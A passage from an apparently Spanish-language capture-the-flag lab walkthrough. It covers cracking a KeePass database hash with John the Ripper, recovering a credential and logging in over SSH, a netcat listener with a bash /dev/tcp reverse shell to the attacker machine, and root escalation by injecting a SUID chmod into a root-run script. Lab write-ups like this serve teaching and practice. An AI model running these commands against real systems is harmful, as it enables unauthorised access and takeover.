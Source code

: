 Ahora lanzamos el ataque de fuerza bruta:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Obtenemos la contrasena:
```bash
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (penguin)
```

Volvemos a iniciar la base de datos ya con la contrasena:
```bash
keepass2 penguin.kdbx # ( password1 )
```

Ahora tenemos la crecenciales:
```bash
pinguinomaravilloso123
```

### Intrusion
Nos conectamos por **ssh** pero solo para mandarnos una **revershell** a nuestro equipo de atacante:
```bash
ssh-keygen -R 172.17.0.2 && ssh penguin@172.17.0.2
```

Modo escucha
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/443 <&1'
```

---

## Escalada de Privilegios

###### Usuario `[ Penguin ]`:
Vemos que esta archivo esta siendo ejecutado por **root**
```bash
cat script.sh 
#!/bin/bash
echo 'pinguino no hackeable' > archivo.txt
```

Asi que nos aprovechamos que tiene permsios de escritura para ineyctar la siguiente linea:
```bash
chmod u+s /bin/bash
```

Ahora solo esperamos a que se ejecute la tarea:
```bash
ls -l /bin/bash

-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```
